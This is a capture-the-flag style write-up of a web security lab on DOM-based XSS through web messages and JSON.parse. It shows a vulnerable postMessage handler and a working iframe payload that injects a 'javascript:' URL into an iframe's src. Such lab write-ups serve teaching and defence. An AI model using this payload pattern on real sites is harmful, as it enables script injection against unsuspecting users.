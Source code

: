 
### DOM XSS using web messages and JSON.parse : PRACTITIONER

---


> We are looking for any script that is misconfigured and contains a sink.
> Scanning through the website source code we see this script that deals with web messages.

```HTML
<script>
	window.addEventListener('message', function(e) {
	    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
	    document.body.appendChild(iframe);
	    try {
	       d = JSON.parse(e.data);
	    } catch(e) {
		    return;
	    }
	    switch(d.type) {
	        case "page-load":
	            ACMEplayer.element.scrollIntoView();
	            break;
	        case "load-channel":
	            ACMEplayer.element.src = d.url;
	            break;
	        case "player-height-changed":
	            ACMEplayer.element.style.width = d.width + "px";
	            ACMEplayer.element.style.height = d.height + "px";
	            break;
	    }
	}, false);
</script>
```

> What this script does:

1. When a message is received, the code creates an `<iframe>` element and an object named `ACMEplayer` which holds a reference to the iframe.
2. The iframe is appended to the `<body>` of the document.
3. The received message data is attempted to be parsed as JSON. If parsing is successful, the data is stored in the variable `d`. If parsing fails, the code exits. 
4. The code then uses a switch statement to check the value of `d.type` and performs different actions based on its value:
    - If `d.type` is `"page-load"`, the code scrolls the iframe into view.
    - If `d.type` is `"load-channel"`, the iframe's `src` attribute is set to the URL provided in `d.url`.
    - If `d.type` is `"player-height-changed"`, the code sets the iframe's width and height based on the values in `d.width` and `d.height`.

> We see that there is a sink, and that is setting the `src` of the `ACMEplayer` iframe, and its source is simply `d.url`, which we can change.
> Therefore, there exists a taint flow, and a DOM based vulnerability.

> Therefore, our goal is to trigger the second case in the switch statement, that is to change the URL of the iframe which is embedded in the HTML of the document.
> The URL we can change it and inject some javascript into it to execute the `print()` function as desired.
> However, since the message data is first parsed as JSON, we need to send it in a JSON format.

> We see that the `select` statement chooses based on `d.type`, then we should in the JSON data a key called `type` and set its value to `load-channel`.
> Furthermore, we see that it sets the `src` to `d.url`, therefore, we need to pass a key called `url` and set its value to the javascript payload:
```JavaScript
Javascript:print()
```

> The message we aim to send should look like this:
```JSON
{
	"type": "load-channel",
	"url": "Javascript:print()"
}
```

> To send messages, we create an `iframe`, set its `src` to our lab, and change the `onload` attribute to send a message. 
> When the user clicks on the link that contains the `iframe` which we will send via the exploit server, the `iframe` loads, sends the message, which executes our javascript.
> The content of this message should be the JSON object above.

```HTML
<iframe
src="https://0a8400d104868c2382f3bfc60004007a.web-security-academy.net/"
onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\": \"Javascript:print()\"}","*")'
>
```
> Basically we added `\` before the `"` inside the message in order to not break out of the string, since we are using multiple instances of double and single qoutes.
> Pasting this payload in the exploit server.

![](./screenshots/lab3-1.png)

> Storing and viewing it shows the print screen.
> Delivering it to victim completes the lab.

---

